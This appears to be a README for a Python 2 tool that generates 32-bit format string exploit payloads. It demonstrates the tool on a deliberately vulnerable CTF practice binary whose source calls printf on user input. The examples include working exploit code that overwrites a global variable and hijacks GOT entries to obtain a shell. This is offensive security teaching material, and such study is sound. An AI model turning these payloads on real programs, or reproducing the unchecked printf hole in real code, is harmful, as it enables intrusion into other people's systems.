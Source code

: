Format String Exploit Payload Generator
=======================================

* Support Python2
* Support 32 bits now(64 bits working on it)

`FormatStringExploit` object has attributes:

* printed
    * For padding or something before format string attack payload
* hij_tar
    * The address of target you want to hijack
* hij_val
    * The value you want that target to be

### Usage

I will show its usage by use example binary which has format string vulnerability.

**The author of this example binary is [Angelboy](https://github.com/scwuaptx).**

This binary src code:

```c
#include <stdio.h>

int magic = 0 ;

int main(){
	char buf[0x100];
	setvbuf(stdout,0,2,0);
	puts("Please crax me !");
	printf("Give me magic :");
	read(0,buf,0x100);
	printf(buf);
	if(magic == 0xda){
		system("cat /home/craxme/flag");
	}else if(magic == 0xfaceb00c){
		system("cat /home/craxme/craxflag");
	}else{
		puts("You need be a phd");
	}

}
```
#### First - make magic == `0xfaceb00c`

```python
from fmtexp import FmtStrExp

magic_address = 0x0804a038
password = 0xfaceb00c

fmt = FmtStrExp(printed = 0, hij_tar = magic_address, hij_val = password)
fmt = [(fmt, 4)]
payload = FmtStrExp.generate32(fmt, 7)
```

**Before trying this one, make sure you have flag in the /home/craxme**


#### Second - get shell

To get shell, we need to make magic == `0xda`, system == main, and printf == system at a time.

```python
from fmtexp import FmtStrExp

puts_got = 0x804a018
system_jmp = 0x8048416
system_got = 0x804a01c
printf_got = 0x804a010
main = 0x0804854b
magic = 0x0804a038

magic_fmt = FmtStrExp(0, magic, 0xda)
printf_got_fmt = FmtStrExp(0, printf_got, system_jmp)
system_got_fmt = FmtStrExp(0, system_got, main)
total_fmt = [(magic_fmt, 1), (printf_got_fmt, 4), (system_got_fmt, 4)]
payload = FmtStrExp.generate32(total_fmt, 7)
```
